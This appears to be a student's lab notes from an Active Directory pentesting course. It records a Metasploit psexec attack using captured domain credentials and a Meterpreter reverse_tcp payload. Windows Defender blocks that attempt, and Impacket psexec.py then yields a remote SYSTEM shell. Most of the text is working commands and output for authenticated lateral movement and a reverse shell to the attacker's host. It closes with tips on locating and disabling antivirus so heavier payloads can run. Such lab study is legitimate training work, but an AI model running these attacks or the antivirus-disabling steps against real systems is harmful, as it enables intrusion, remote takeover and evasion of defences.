

Search for Psexec

┌──(root㉿kali)-[/home/kali]
└─# msfconsole
___ ____
,-"" `. < HONK >
,' _ e )`-._ / ----
/ ,' `-._<.===-'
/ /
/ ;
_ / ;
(`._ _.-"" ""--..__,' |
<_ `-"" \
<`- :
(__ <__. ;
`-. '-.__. _.' /
\ `-.__,-' _,'
`._ , /__,-'
""._\__,'< <____
| | `----.`.
| | \ `.
; |___ \-``
\ --<
`.`.<
`-'
=[ metasploit v6.2.3-dev ]
+ -- --=[ 2227 exploits - 1172 auxiliary - 398 post ]
+ -- --=[ 864 payloads - 45 encoders - 11 nops ]
+ -- --=[ 9 evasion ]
Metasploit tip: You can upgrade a shell to a Meterpreter
session on many platforms using sessions -u
<session_id>
msf6 > search psexec
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 auxiliary/scanner/smb/impacket/dcomexec 2018-03-19 normal No DCOM Exec
1 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
2 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
3 auxiliary/scanner/smb/psexec_loggedin_users normal No Microsoft Windows Authenticated Logged In Users Enumeration
4 exploit/windows/smb/psexec 1999-01-01 manual No Microsoft Windows Authenticated User Code Execution
5 auxiliary/admin/smb/psexec_ntdsgrab normal No PsExec NTDS.dit And SYSTEM Hive Download Utility
6 exploit/windows/local/current_user_psexec 1999-01-01 excellent No PsExec via Current User Token
7 encoder/x86/service manual No Register Service
8 auxiliary/scanner/smb/impacket/wmiexec 2018-03-19 normal No WMI Exec
9 exploit/windows/smb/webexec 2018-10-24 manual No WebExec Authenticated User Code Execution
10 exploit/windows/local/wmi 1999-01-01 excellent No Windows Management Instrumentation (WMI) Remote Command Execution
Interact with a module by name or index. For example info 10, use 10 or use exploit/windows/local/wmi
msf6 >
sf6 > use 4
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SMBDomain . no The Windows domain to use for authentication
SMBPass no The password for the specified username
SMBSHARE no The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
SMBUser no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.205.128 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf6 exploit(windows/smb/psexec) > set rhosts 192.168.205.138
rhosts => 192.168.205.138
msf6 exploit(windows/smb/psexec) > set subdomain marvel.local
subdomain => marvel.local
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 192.168.205.138 yes The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SMBDomain . no The Windows domain to use for authentication
SMBPass Password1 no The password for the specified username
SMBSHARE no The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
SMBUser fcastle no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.205.128 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf6 exploit(windows/smb/psexec) > set smbdomain marvel.local
smbdomain => marvel.local
msf6 exploit(windows/smb/psexec) > options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 192.168.205.138 yes The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SMBDomain marvel.local no The Windows domain to use for authentication
SMBPass Password1 no The password for the specified username
SMBSHARE no The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
SMBUser fcastle no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.205.128 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf6 exploit(windows/smb/psexec) > set payload windows/x64/me
set payload windows/x64/messagebox set payload windows/x64/meterpreter/bind_tcp_rc4 set payload windows/x64/meterpreter/reverse_tcp
set payload windows/x64/meterpreter/bind_ipv6_tcp set payload windows/x64/meterpreter/bind_tcp_uuid set payload windows/x64/meterpreter/reverse_tcp_rc4
set payload windows/x64/meterpreter/bind_ipv6_tcp_uuid set payload windows/x64/meterpreter/reverse_http set payload windows/x64/meterpreter/reverse_tcp_uuid
set payload windows/x64/meterpreter/bind_named_pipe set payload windows/x64/meterpreter/reverse_https set payload windows/x64/meterpreter/reverse_winhttp
set payload windows/x64/meterpreter/bind_tcp set payload windows/x64/meterpreter/reverse_named_pipe set payload windows/x64/meterpreter/reverse_winhttps
msf6 exploit(windows/smb/psexec) > set payload windows/x64/me
set payload windows/x64/messagebox set payload windows/x64/meterpreter/bind_tcp_rc4 set payload windows/x64/meterpreter/reverse_tcp
set payload windows/x64/meterpreter/bind_ipv6_tcp set payload windows/x64/meterpreter/bind_tcp_uuid set payload windows/x64/meterpreter/reverse_tcp_rc4
set payload windows/x64/meterpreter/bind_ipv6_tcp_uuid set payload windows/x64/meterpreter/reverse_http set payload windows/x64/meterpreter/reverse_tcp_uuid
set payload windows/x64/meterpreter/bind_named_pipe set payload windows/x64/meterpreter/reverse_https set payload windows/x64/meterpreter/reverse_winhttp
set payload windows/x64/meterpreter/bind_tcp set payload windows/x64/meterpreter/reverse_named_pipe set payload windows/x64/meterpreter/reverse_winhttps
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 192.168.205.138 yes The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SMBDomain marvel.local no The Windows domain to use for authentication
SMBPass Password1 no The password for the specified username
SMBSHARE no The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
SMBUser fcastle no The username to authenticate as
Payload options (windows/x64/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.205.128 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf6 exploit(windows/smb/psexec) > set lhost eth0
lhost => eth0
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 192.168.205.128:4444
[*] 192.168.205.138:445 - Connecting to the server...
[*] 192.168.205.138:445 - Authenticating to 192.168.205.138:445|marvel.local as user 'fcastle'...
[*] 192.168.205.138:445 - Selecting PowerShell target
[*] 192.168.205.138:445 - Executing the payload...
[+] 192.168.205.138:445 - Service start timed out, OK if running a command or non-service executable...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 192.168.205.128:4444
[*] 192.168.205.138:445 - Connecting to the server...
[*] 192.168.205.138:445 - Authenticating to 192.168.205.138:445|marvel.local as user 'fcastle'...
[*] 192.168.205.138:445 - Selecting PowerShell target
[*] 192.168.205.138:445 - Executing the payload...
[-] 192.168.205.138:445 - Service failed to start - ACCESS_DENIED
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/psexec) > show targets
Exploit targets:
Id Name
-- ----
0 Automatic
1 PowerShell
2 Native upload
3 MOF upload
4 Command
msf6 exploit(windows/smb/psexec) > set target 2
target => 2
msf6 exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 192.168.205.128:4444
[*] 192.168.205.138:445 - Connecting to the server...
[*] 192.168.205.138:445 - Authenticating to 192.168.205.138:445|marvel.local as user 'fcastle'...
[!] 192.168.205.138:445 - peer_native_os is only available with SMB1 (current version: SMB3)
[*] 192.168.205.138:445 - Uploading payload... FeVeCBCs.exe
[*] 192.168.205.138:445 - Created \FeVeCBCs.exe...
[-] 192.168.205.138:445 - Service failed to start, ERROR_CODE: 225
[*] 192.168.205.138:445 - Deleting \FeVeCBCs.exe...
[-] 192.168.205.138:445 - Exploit failed: RubySMB::Error::UnexpectedStatusCode The server responded with an unexpected status code: STATUS_VIRUS_INFECTED
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/psexec) >
We got a Virus Detected in when we are attacking in fcastle
My Meterpeter as well as psexec.py both got detected by Windows Defender (i.e. Mentor was able to bypass Windows Defender using psexec.py)

┌──(root㉿kali)-[/home/kali]
└─# psexec.py marvel.local/fcastle:Password1@192.168.205.138
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
[*] Requesting shares on 192.168.205.138.....
[*] Found writable share ADMIN$
[*] Uploading file eOwIwzRs.exe
[*] Opening SVCManager on 192.168.205.138.....
[*] Creating service fmIy on 192.168.205.138.....
[*] Starting service fmIy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.
C:\Windows\system32>
Failed Attempt By Me :


It worked with Peter Parker ^_^

Mentor has provided us 4 options so don't give at the first tool
Psexec is one of the more noisy when it comes to antivirus.
Pro Tip:
Make Sure you get in quietly first go in navigate around try to find the antivirus being used
And then try to use something as psexec or even another method in Metasploit to get around.
Try this first:
SMBexec
WMIexec
and see if they work and we get a shell and if we can they are just Half shell (i.e. not fully interactive and not good enough)
to navigate around the C drive
What we can do ?_?
We can navigate around and see what kind of antivirus is running and then once we figure out and see that we can disable that
antivirus so that we can run something more robust like Windows meterpreter
Disable the Windows Defender in Frank Castle if it is re-enabled